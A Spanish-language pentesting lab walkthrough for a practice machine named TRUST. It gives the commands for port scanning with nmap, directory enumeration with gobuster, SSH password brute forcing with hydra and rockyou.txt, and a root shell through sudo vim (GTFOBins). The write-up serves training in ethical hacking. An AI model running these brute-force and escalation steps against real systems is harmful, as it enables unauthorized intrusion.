










# Lab de Pentesting: Escalada de privilegios en máquina TRUST

Este repositorio documenta el proceso paso a paso para comprometer y escalar privilegios en la máquina objetivo con IP \`172.18.0.2\`.

---

## Resumen

El objetivo principal fue identificar servicios activos, realizar enumeración, obtener acceso mediante fuerza bruta y finalmente escalar privilegios para obtener control total del sistema.

---

## Herramientas utilizadas

- \`ping\`
- \`nmap\`
- \`gobuster\`
- \`hydra\`
- \`ssh\`
- \`vim\`
- Diccionario \`rockyou.txt\`

---

## Pasos realizados

### 1. Verificar conectividad con ping

\`\`\`bash
ping -c 4 172.18.0.2
\`\`\`

Se confirmó que el objetivo responde a la red.

---

### 2. Escaneo completo de puertos con Nmap

\`\`\`bash
nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt
\`\`\`

Detectamos los puertos abiertos:
- Puerto 22 (SSH)
- Puerto 80 (HTTP)
Vemos que tiene el puerto 80 mediante el navegador

---

### 3. Enumeración de directorios HTTP con Gobuster

\`\`\`bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json
\`\`\`

Se descubrió el archivo \`secret.php\`.

---

### 4. Análisis del archivo \`secret.php\`

Al visitar \`http://172.18.0.2/secret.php\` encontramos un nombre: **Mario**.

---

### 5. Ataque de fuerza bruta SSH con Hydra

Intentamos acceder vía SSH con el usuario \`mario\` usando el diccionario \`rockyou.txt\`:

\`\`\`bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -v ssh://172.18.0.2
\`\`\`

Se logró obtener la contraseña correcta.

---

### 6. Acceso vía SSH

Conectamos exitosamente a la máquina como usuario \`mario\`.

---

### 7. Enumeración para escalada de privilegios

Ejecutamos:

\`\`\`bash
sudo -l
\`\`\`

Se observó que \`mario\` puede ejecutar \`vim\` con privilegios de root sin contraseña.

---

### 8. Explotación para obtener shell root

Usando la técnica encontrada en [GTFOBins - Vim](https://gtfobins.github.io/), ejecutamos:

\`\`\`bash
sudo vim -c ':!/bin/sh'
\`\`\`

Conseguimos un shell con privilegios root y control total de la máquina.

---

## Resultados finales

- Acceso root conseguido en la máquina objetivo.
- Escalada de privilegios exitosa mediante abuso de sudo con vim.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
